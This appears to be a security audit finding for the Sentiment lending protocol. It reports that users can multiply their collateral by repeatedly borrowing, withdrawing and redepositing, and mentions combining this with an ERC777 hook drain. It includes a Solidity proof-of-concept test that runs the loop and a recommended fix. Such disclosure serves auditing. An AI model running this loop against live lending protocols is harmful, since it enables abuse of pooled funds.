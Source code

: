 Tutturu
# Multiply collateral via a borrow and deposit loop

## Summary
A user can borrow multiple times more than expected by withdrawing and redepositing the borrowed asset as collateral.

## Vulnerability Detail
The protocol does not forbid the user from withdrawing their borrowed assets as long as the safety factor is above 1.2e18. This means that a user can deposit collateral, borrow a smaller amount of funds reducing their safety score, and then redeposit those borrowed assets to increase their safety score. This action can be repeated until the user reaches the desired safety score, and then they can leverage their collateral in one of the supported protocols.

## Impact
Although this vulnerability does not directly lead to loss of funds it still demonstrates an unexpected way of abusing the borrow and withdraw flow, leading to users multiplying their leveregable assets by up to 4 times.

Additionally, this vulnerability could be combined with the previous issue I submitted that drains the collateral and borrow via the ERC777 tokensReceived() hook, by building up ETH collateral with the withdrawn borrowed assets, and then withdrawing the collateral at the end of sweepTo().

## Code Snippet

```solidity
function testMultiBorrow() public {
	// Setup
	uint96 depositAmt = 100 ether;
	uint96 borrowAmt = 20 ether;
	uint256 tokenPoolAmount = 10000 ether;
	uint256 totalDeposit = uint256(depositAmt);
	uint256 totalBorrow = uint256(borrowAmt);

	deposit(owner, account, address(erc20), depositAmt);

	erc20.mint(registry.LTokenFor(address(erc20)), tokenPoolAmount);

	cheats.startPrank(owner);

	// Arbitrary number of iterations, just to showcase we are borrowing more than we should be able to
	for (uint256 i; i < 19; i++) {

		accountManager.borrow(account, address(erc20), borrowAmt);

		accountManager.withdraw(account, address(erc20), borrowAmt);

		accountManager.deposit(account, address(erc20), borrowAmt);

		totalDeposit += borrowAmt;

		totalBorrow += i == 0 ? 0 : borrowAmt;

}
	cheats.stopPrank();

	console.log("totalDeposit", totalDeposit);
	console.log("totalBorrow", totalBorrow);
	console.log("Account balance", erc20.balanceOf(account));

	require(totalDeposit > depositAmt, "Deposit correctly limited");

}
```

Affected functions:
Deposit and withdraw: [AccountManager.sol#L183-L217](https://github.com/sherlock-audit/2022-08-sentiment-tuturu-tech/blob/518b6d4f8caaffd4cd2c2f4483b11170dccbdeeb/protocol/src/core/AccountManager.sol#L183-L217)

## Tool used

Manual Review

## Recommendation

Disallow withdrawing borrowed assets.